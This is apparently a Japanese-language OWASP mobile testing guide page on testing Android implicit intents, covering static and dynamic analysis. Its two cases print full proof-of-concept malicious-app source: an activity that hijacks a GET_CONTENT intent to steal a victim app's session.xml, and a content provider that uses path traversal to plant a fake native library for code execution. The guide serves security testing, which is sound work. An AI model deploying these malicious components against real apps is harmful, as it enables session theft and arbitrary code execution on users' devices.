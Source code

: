 ```yaml
---
masvs_v1_id:
- MSTG-PLATFORM-2
masvs_v2_id:
- MASVS-CODE-4
platform: android
title: 暗黙的インテントのテスト (Testing Implicit Intents)
masvs_v1_levels:
- L1
- L2
---
```


## 概要

[暗黙的インテント](../../../Document/0x05h-Testing-Platform-Interaction.md#implicit-intents) をテストする際には、それらがインジェクション攻撃に対して脆弱であったり、機密データが漏洩する可能性があるかどうかをチェックする必要があります。

## 静的解析

Android Manifest を調べて、[<queries> ブロック](https://developer.android.com/guide/topics/manifest/queries-element "Android queries") 内で定義されている `<intent>` シグネチャ (アプリがやり取りする他のアプリのセットを指定) を探し、システムアクション (`android.intent.action.GET_CONTENT`, `android.intent.action.PICK`, `android.media.action.IMAGE_CAPTURE`, など) が含まれるかどうかをチェックし、それが出現するソースコードを閲覧します。

たとえば、以下の `Intent` は具体的なコンポーネントを指定しておらず、暗黙的インテントであることを意味しています。ユーザーに入力データを尋ねるために `android.intent.action.GET_CONTENT` アクションを設定し、アプリは `startActivityForResult` と画像選択を指定してインテントを開始します。

```java
Intent intent = new Intent();
intent.setAction("android.intent.action.GET_CONTENT");
startActivityForResult(Intent.createChooser(intent, ""), REQUEST_IMAGE);
```

アプリは `startActivity` の代わりに `startActivityForResult` を使用し、結果 (この場合は画像) を期待していることを示しており、 `onActivityResult` コールバックを探してインテントの戻り値がどのように処理されるかをチェックする必要があります。インテントの戻り値が適切に検証されていない場合、攻撃者はアプリの内部ストレージ `/data/data/<appname>` から任意のファイルを読み取ったり、任意のコードを実行できる可能性があります。この種の攻撃の詳しい説明は [次のブログ記事](https://blog.oversecured.com/Interception-of-Android-implicit-intents " Current attacks on implicit intents") にあります。

### Case 1: 任意のファイルの読み取り

この例では、インテントの返り値の不適切な検証によって、攻撃者がどのようにしてアプリの内部ストレージ `/data/data/<appname>` 内から任意のファイルを読み取ることができるかを見ていきます。

以下の例の `performAction` メソッドは暗黙的インテントの戻り値を読み取ります。これは攻撃者が提供した URI である可能性があり、それを `getFileItemFromUri` に渡します。このメソッドはファイルを一時フォルダにコピーします。これはこのファイルが内部的に表示される場合に通常行われます。しかし、アプリが `getExternalCacheDir` や `getExternalFilesDir` を呼び出すなどして、URI で提供されたファイルを外部の一時ディレクトリに保存する場合、攻撃者は `android.permission.READ_EXTERNAL_STORAGE` パーミッションを設定することでこのファイルを読み取ることができます。

```java
private void performAction(Action action){
  ...
  Uri data = intent.getData();
  if (!(data == null || (fileItemFromUri = getFileItemFromUri(data)) == null)) {
      ...
  }
}

private FileItem getFileItemFromUri(Context, context, Uri uri){
  String fileName = UriExtensions.getFileName(uri, context);
  File file = new File(getExternalCacheDir(), "tmp");
  file.createNewFile();
  copy(context.openInputStream(uri), new FileOutputStream(file));
  ...
}
```

以下は上記の脆弱なコードを悪用する悪意のあるアプリのソースです。

AndroidManifest.xml

```xml
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" />
<application>
  <activity android:name=".EvilContentActivity">
      <intent-filter android:priority="999">
          <action android:name="android.intent.action.GET_CONTENT" />
          <data android:mimeType="*/*" />
      </intent-filter>
  </activity>
</application>
```

EvilContentActivity.java

```java
public class EvilContentActivity extends Activity{
  @Override
  protected void OnCreate(@Nullable Bundle savedInstanceState){
    super.OnCreate(savedInstanceState);
    setResult(-1, new Intent().setData(Uri.parse("file:///data/data/<victim_app>/shared_preferences/session.xml")));
    finish();
  }
}
```

ユーザーがインテントを処理するために悪意のあるアプリを選択した場合、攻撃者はアプリの内部ストレージから `session.xml` を盗むことができます。前の例では、被害者はダイアログで攻撃者の悪意のあるアプリを明示的に選択する必要があります。しかし、開発者はこのダイアログを抑制し、インテントの受信者を自動的に決定することもできます。これによりユーザーとの追加のやり取りなしで攻撃が発生する可能性があります。

以下のコードサンプルは受信者の自動選択を実装します。悪意のあるアプリのインテントフィルタに優先度を指定することで、攻撃者は選択シーケンスに影響を与えることができます。

```java
Intent intent = new Intent("android.intent.action.GET_CONTENT");
for(ResolveInfo info : getPackageManager().queryIntentActivities(intent, 0)) {
    intent.setClassName(info.activityInfo.packageName, info.activityInfo.name);
    startActivityForResult(intent);
    return;
}
```

### Case 2: 任意のコードの実行

被害者アプリが `content://` や `file://` URLを許可している場合、暗黙的インテントの不適切に処理された戻り値によって任意のコードが実行される可能性があります。

攻撃者は `public Cursor query(...)` を含む [`ContentProvider`](https://developer.android.com/reference/android/content/ContentProvider "Android ContentProvider") を実装して、任意のファイル (この場合は _lib.so_) を設定できます。もし被害者が `copy` を実行してコンテンツプロバイダからこのファイルをロードすると、攻撃者の `ParcelFileDescriptor openFile(...)` メソッドが実行され、悪意のある _fakelib.so_ を返します。

AndroidManifest.xml

```xml
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" />
<application>
  <activity android:name=".EvilContentActivity">
      <intent-filter android:priority="999">
          <action android:name="android.intent.action.GET_CONTENT" />
          <data android:mimeType="*/*" />
      </intent-filter>
  </activity>
  <provider android:name=".EvilContentProvider" android:authorities="com.attacker.evil" android:enabled="true" android:exported="true"></provider>
</application>
```

EvilContentProvider.java

```java
public Cursor query(Uri uri, String[] projection, String selection, String[] selectionArgs, String sortOrder) {
    MatrixCursor matrixCursor = new MatrixCursor(new String[]{"_display_name"});
    matrixCursor.addRow(new Object[]{"../lib-main/lib.so"});
    return matrixCursor;
}
public ParcelFileDescriptor openFile(Uri uri, String mode) throws FileNotFoundException {
    return ParcelFileDescriptor.open(new File("/data/data/com.attacker/fakelib.so"), ParcelFileDescriptor.MODE_READ_ONLY);
}
```

EvilContentActivity.java

```java
public class EvilContentActivity extends Activity{
  @Override
  protected void OnCreate(@Nullable Bundle savedInstanceState){
    super.OnCreate(savedInstanceState);
    setResult(-1, new Intent().setData(Uri.parse("content:///data/data/com.attacker/fakelib.so")));
    finish();
  }
}
```

## 動的解析

暗黙的インテントを動的にテストする便利な方法は、特に漏洩の可能性のある機密データを特定するには、Frida または frida-trace を使用して `startActivityForResult` と `onActivityResult` メソッドをフックし、提供されたインテントとそれに含まれるデータを検査することです。
